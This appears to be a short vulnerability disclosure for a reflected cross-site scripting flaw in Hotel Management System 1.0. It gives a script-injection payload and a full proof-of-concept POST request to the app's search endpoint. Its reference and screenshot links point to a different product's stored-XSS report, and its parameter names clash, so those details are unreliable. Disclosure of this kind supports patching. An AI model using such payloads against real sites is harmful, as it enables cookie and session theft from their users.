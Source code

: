 #### Title: Hotel Management System 1.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-hotel-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
#### Hotel Management System is vulnerable to Reflected cross-site scripting on the search parameter.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`

### POC

```
POST /ci_hms/search HTTP/1.1
Host: localhost
Content-Length: 11
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_hms/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=9kn2p06ccqlaaf2fft0qpgso3qdgj7j1
Connection: close

customer="><script>alert("XSS")</script>
```

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/37f3162287d4da5362ea0a408bd0e1c970b39c3e/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Cross%20Site%20Scripting(Stored)/2.png)

